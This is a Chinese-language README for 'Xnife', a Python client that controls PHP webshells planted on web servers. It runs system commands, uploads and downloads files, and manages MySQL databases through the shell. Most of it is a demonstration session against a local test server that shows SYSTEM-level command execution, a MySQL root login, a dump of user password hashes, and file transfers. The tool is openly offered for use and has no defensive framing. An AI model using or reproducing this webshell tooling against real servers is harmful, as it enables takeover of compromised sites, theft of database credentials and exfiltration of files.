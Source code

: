 Xnife X🔪
#author:xbillow

X刀目前只支持后端脚本为php、数据库为mysql的情况。

xnife.py    唯一可执行脚本，主要完成命令交互，调用自己编写的knifelib.py里面的类和函数实现命令执行，文件上传，文件下载，数据库管理
Payloads    payload库，所有的php代码都在这里了
knifelib.py 分3个class分别实现文件管理，命令执行，数据库管理

    该程序使用交互执行的方式，可以直接执行系统命令，将文件上传下载分别定义为put和get，数据库管理定义为sql，其他命令都将作为系统命令发送到服务端执行
站在用户的角度看，就是系统命令执行的操作，只是提供了3个内部命令可以传输文件和执行sql语句,所有的sql查询都将产生一个以时间命名的csv文件来记录查询到的数据。

下面是一个例子：


-----------------------------------------------------------------------------------------------------------
PS C:\Users\360\Desktop\exercise\python\Cknife> python xnife.py
useage: xnife.py <url> <password>
PS C:\Users\360\Desktop\exercise\python\Cknife> python .\xnife.py http://127.0.0.1/testt.php asmin

get <remotePath>                download file from remotePath to current directory.
put <localPath> <remotePath>    uploag file from localPath to remotePath.
sql <host> <user> <passwd>      connect the database by the server.
help                            show this page.
any other system command        execute the command.

xniffe->>
xniffe->>help

get <remotePath>                download file from remotePath to current directory.
put <localPath> <remotePath>    uploag file from localPath to remotePath.
sql <host> <user> <passwd>      connect the database by the server.
help                            show this page.
any other system command        execute the command.

xniffe->>whoami
nt authority\system

[+]Execute successfully!

xniffe->>dir
 驱动器 D 中的卷是 新加卷
 卷的序列号是 B6E2-B7E5

 D:\www 的目录

2018/08/03  14:50    <DIR>          .
2018/08/03  14:50    <DIR>          ..
2018/07/25  20:53               946 1.js
2018/08/03  21:02               559 1.php
2018/07/31  19:51               343 11.php
2018/07/25  11:33               113 172.28.100.92.html
2018/07/25  21:08               943 2.js
2018/07/26  21:20               100 2.php
2018/07/25  16:21               652 add-user.php
2018/07/25  20:58                79 admin.txt
2018/08/01  20:22             2,048 Cknife.db
2018/08/01  20:22         5,178,995 Cknife.jar
2018/07/31  13:31               247 cmd.php
2018/08/01  20:22            33,200 Config.ini
2018/07/28  17:54               883 heapoverflow.html
2018/07/30  18:59            18,061 log.txt
2018/07/25  10:46               238 login.html
2018/07/25  10:46               229 login1.php
2018/07/25  16:12               527 manage-defense.php
2018/07/25  10:47               308 manage.php
2018/07/31  21:42             4,332 PHPerrlogphp_error.log
2018/08/01  14:49           543,853 Sqlmap.png.bak
2018/08/01  08:52           141,828 Sqlmap.txt
2018/08/01  19:58               127 t.py
2018/07/31  17:36                69 test.php
2018/07/27  21:58               479 test2.php
2018/08/01  16:21                34 testt.php
2018/08/03  14:54    <DIR>          yuequan
              25 个文件      5,929,193 字节
               3 个目录 112,861,536,256 可用字节

[+]Execute successfully!

xniffe->>sql
[-]Error:argument too many or too few.

get <remotePath>                download file from remotePath to current directory.
put <localPath> <remotePath>    uploag file from localPath to remotePath.
sql <host> <user> <passwd>      connect the database by the server.
help                            show this page.
any other system command        execute the command.

xniffe->>sql 127.0.0.1 root 526613
You can execute sql now.
xniffe-sql>>
xniffe-sql>>select database()

|     database()    | | |
| information_schema| | |

[+]Execute successfully!

xniffe-sql>>use mysql
Database changed.
xniffe-sql>>select database()

| database()| | |
|   mysql   | | |

[+]Execute successfully!

xniffe-sql>>select user,password,host from user

| user|                  password                |       host     | | |
| root| *1B126DAB7C185C42D26AF5ECDB0ABE292B414D34|    localhost   | | |
| root| *1B126DAB7C185C42D26AF5ECDB0ABE292B414D34| desktop-6obu4bp| | |
| root| *1B126DAB7C185C42D26AF5ECDB0ABE292B414D34|    127.0.0.1   | | |
| root| *1B126DAB7C185C42D26AF5ECDB0ABE292B414D34|       ::1      | | |

[+]Execute successfully!

xniffe-sql>>exit
xniffe->>get 1.php
[+]Download 1.php to ./1.php
xniffe->>get D:\123.png
[+]Download D:\123.png to ./123.png
xniffe->>put 1.php C:\1.php
[+]Upload to C:\1.php.
xniffe->>
xniffe->> 
xniffe->>exit
PS C:\Users\360\Desktop\exercise\python\Cknife>
